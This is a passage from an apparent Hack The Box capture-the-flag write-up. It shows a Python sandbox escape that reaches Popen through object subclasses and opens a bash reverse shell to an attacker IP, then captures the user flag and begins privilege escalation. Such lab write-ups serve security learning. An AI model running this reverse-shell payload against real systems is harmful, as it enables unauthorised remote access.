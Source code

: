 We leverage `Popen` to execute commands and establish a reverse shell connection.

```python
().__class__.__bases__[0].__subclasses__()[317]('bash -c "bash -i >& /dev/tcp/10.10.14.217/9000 0>&1"', shell=True).communicate()
```

![Reverse shell](../assets/img/posts/2025-08-18-htb-writeup-code/image-5.png)

We find the user flag at `/home/app-production/user.txt` and capture it.

![User flag](../assets/img/posts/2025-08-18-htb-writeup-code/image-11.png)

## Privilege escalation

Within the `instance` directory, we identify a database file named `database.db`

![Found database](../assets/img/posts/2025-08-18-htb-writeup-code/image-6.png)
